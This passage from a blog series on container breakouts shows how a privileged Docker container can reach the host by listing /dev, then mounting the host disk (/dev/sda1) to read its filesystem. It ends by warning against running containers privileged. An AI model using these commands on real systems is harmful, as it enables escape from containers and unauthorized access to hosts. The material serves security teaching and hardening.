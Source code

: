 As you can see, the script is executed and the output made available inside the container. 

_Remark: Thanks to Matthias ([@uchi_mata](https://twitter.com/uchi_mata)) for the review and remembering me to add this breakout  technique!_

### Host Devices

If you are in a privileged container, the devices are not striped and namespaced. A quick directory **listing** of the **devices** in the container shows that we have **access to all** of them. Since we are `root` and have all capabilities, we can **mount** the **devices** that are plugged into the host – as well as the hard drive.  

Mounting the hard drive is giving us access to the host filesystem. 

```
root@0462216e684b:~# ls -l /dev/
[...]
brw-rw---- 1 root  994   8,   0 Jul 11 09:20 sda
brw-rw---- 1 root  994   8,   1 Jul 11 09:20 sda1
[...]

# mkdir /hostfs
# mount /dev/sda1 /hostfs
# ls -l /hostfs/
total 132
lrwxrwxrwx   1 root root     7 Nov 19  2019 bin -> usr/bin
drwxr-xr-x   4 root root  4096 May 13 13:29 boot
[...]
drwxr-xr-x 104 root root 12288 Jul 11 10:09 etc
drwxr-xr-x   4 root root  4096 Jun 30 14:47 home
[...]
drwxr-x---   9 root root  4096 Jul 11 10:09 root
[...]
lrwxrwxrwx   1 root root     7 Nov 19  2019 sbin -> usr/bin
[...]
drwxr-xr-x  10 root root  4096 May 26 14:37 usr
[...]
```

Escalating the access to the root directory of the host is already described in the **previous part** of the series [Part 1: Access to root directory of the Host](../container-breakouts-part1).

## Conclusion

We have seen three approaches that can be used if a Unix container is started with an insecure configuration. 

The main take away message is that one should **be careful if** a **container must** be **started** in **privileged** mode. Ether it is one of the management components that are needed for controlling the container host system or a malicious agenda. **Never start a container privileged if it is not necessary** and review carefully the additional capabilities that a container might require.

Now you know why we discussed the breakout techniques with access to the root directory, before I discussed the access to the host devices.

If you are interested in how to use the Docker socket to get out of the container, stay tuned for the next blog post of the series _**Part 3: Docker Socket**_.




